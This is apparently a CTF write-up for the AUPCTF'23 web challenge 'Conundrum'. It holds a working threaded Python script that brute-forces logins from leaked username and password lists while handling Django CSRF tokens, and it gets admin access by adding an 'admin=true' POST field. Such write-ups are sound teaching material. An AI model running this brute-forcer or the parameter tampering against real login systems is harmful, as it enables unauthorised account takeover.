 ```yaml
---
title: AUPCTF'23 - Web - Conundrum
date: '2023-06-25'
tags: ['ctf', 'web', 'aupctf', 'writeup', 'brute-force', 'csrf']
draft: false
summary: A detailed writeup for the web challenge `Conundrum` from AUPCTF'23
---
```


## Solution

We're given the following URL to work with:

```js
https://challs.aupctf.live/conundrum/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/conundrum_login.png)

We can try to login with some random credentials, but we're greeted with the following error:

![Error Login Page](/static/writeups/aupctf/web/conundrum_err_login.png)

Using a `CTF` mindset, we try and visit some obvious pages, first, we visit robots.txt and get the following:

```js
User-agent: *
Disallow: /usernames/
Disallow: /passwords/
```

We visit the `/usernames/` directory and get the following:

![Usernames](/static/writeups/aupctf/web/conundrum_usernames.png)

Similarly, for passwords:

![Passwords](/static/writeups/aupctf/web/conundrum_passwords.png)

Now, to extract the username and passwords, I wrote the following python script:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum"

r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)

r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)

```

Now, we need to send the data to the login page, so, using Chrome dev tools, we firstly identify the `POST` request being sent to the server:

![DevTools](/static/writeups/aupctf/web/conundrum_request.png)

Now, here, we can see that, we have a `csrfmiddlewaretoken`. So, for that, we need to send a `GET` request to the login page, and extract the `csrfmiddlewaretoken` from the response, and then, with each request, we need to send the `csrfmiddlewaretoken` as well. Also, we will need the `csrftoken` cookie set as well and a `referer` header set to the login page. So, for that, I wrote the following final script.

```py
import requests
import re
import threading
import itertools

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()
csrftoken = None

def _post(username, password):
	r = sess.post(
		url,
		headers = {
			'Referer' : url
		},
		data = {
			'csrfmiddlewaretoken' : csrftoken,
			'username' : username,
			'password' : password,
		}
	)

	if 'invalid' not in r.text.lower():
		print(f"=> {username}:{password}")
		print(f"Response: {r.text}")

print("[+] Fetching the usernames", end='')
r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(usernames)}")

print("[+] Fetching the passwords", end='')
r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(passwords)}")


print("[*] Combining both lists: ")
creds = list(itertools.product(usernames, passwords))

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

print("[*] Bruteforcing...")
threads = []
for username, password in creds:
	t = threading.Thread(target=_post, args=(username, password))
	threads.append(t)
	t.start()

for t in threads:
	t.join()
```

Now, when running the script, we get the following output in matters of seconds:

```py
[+] Fetching the usernames : 20
[+] Fetching the passwords : 20
[*] Combining both lists: 
[*] Extracting the CSRF Token : ZQBndXSbKeH0C3Wnl3pLlP3epgwasd1F
[*] Bruteforcing...
=> starlord69:1A8$5k7!eR
Response: <!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>

</head>
<style>
    body {
        background-color: #f2f2f2;
        font-family: Arial, sans-serif;
        margin: 0;
        padding: 0;
    }
    .h{
        text-align: center;
        font-size: 36px;
    }
    .message {
        text-align: center;
        margin-top: 50px;
        margin-left: 5em;
        margin-right: 5em;
        font-size: 24px;
        color: #333;
    }

    .logout {
        display: block;
        text-align: center;
        margin-top: 20px;
        color: #a00606;
        text-decoration: none;
        font-size: 24px;
    }

    .logout:hover {
        color: #540a0a;
    }
</style>

<body>
    <h3 class="h">Login successful!</h3>
    <p class="message">You've entered the 'Userland'! The flag, however, is chilling in the 'Admin Paradise'.</p>
    <a href="/phash/" class="logout">Logout</a>

    </form>
</body>
</html>
```

Now, with the following credentials, `starlord69:1A8$5k7!eR`, we are able to login successfully:


![Login Success](/static/writeups/aupctf/web/conundrum_login_success.png)

Now, the message is pretty vague. I tried several different stuff. Finally, with a hint from the admins and a fellow hacker, I tried the two things and one of them worked

1. Adding a seperate `admin: 1` header in the http request
2. Adding a `admin=true` parameter in the POST request data (SPOILER, it worked.)

![burp_test](/static/writeups/aupctf/web/conundrum_burp.png)
![Flag](/static/writeups/aupctf/web/conundrum_flag.png)

So, since I love to automate everything, the final script to extract the flag became:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()

username = 'starlord69'
password = '1A8$5k7!eR'

print(f"[*] Using creds: {username}:{password}")

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password,
		'admin' : 'true',
	}
)

flag = re.findall('class="flag">(.*?)</b>', r.text)[0]
print(f"[>] Flag: {flag}")
```

The final output and flag is:

```py
[*] Using creds: starlord69:1A8$5k7!eR
[*] Extracting the CSRF Token : 136nR4wCHKPlH5rj7O9VIyFRwSgn8X1j
[>] Flag: aupCTF{V1ct0ri0usChall3ng3r!}
```